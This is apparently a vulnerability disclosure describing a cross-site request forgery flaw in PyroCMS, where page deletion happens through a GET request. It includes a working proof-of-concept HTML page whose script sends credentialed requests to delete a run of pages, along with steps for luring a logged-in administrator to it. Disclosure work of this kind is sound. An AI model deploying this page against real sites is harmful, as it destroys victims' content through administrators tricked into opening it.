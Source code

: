 # Description

`pyrocms/pyrocms` is vulnerable to `Cross-site Request Forgery (CSRF)` via the `admin/pages/delete/` URI: pages will be deleted.
Due to action is performed via GET request. An attacker can leverage this vulnerability by creating a form and host this form on his server and share this link to victims through social engineering methods. Once the victims who are already authenticated to the PyroCMS, click upon the link, unintended actions will be performed on the victim's behalf and Pages will be deleted.


# Steps To Reproduce-:  

Create a page with below content.

```
<!DOCTYPE>
<html>
<head>
    <title></title>
    <script type="text/javascript">
                        // to delete pages.
                        // it's in your hand to delete number of pages.
        var url = "http://test.com/admin/pages/delete/"
        for (var i = 1; i <= 13 ; i++) { 
            var url1 = url+i;
            xhr = new XMLHttpRequest();
            xhr.open("GET",url1);
            xhr.withCredentials = true;
            xhr.send(null);
        }
    </script>
</head>
<body>
<--html content here--!>
</body>
</html>
```

* Send to the victim (who is authenticated on PyroCMS as administrator) and once the victim clicks on the link, pages will be deleted.
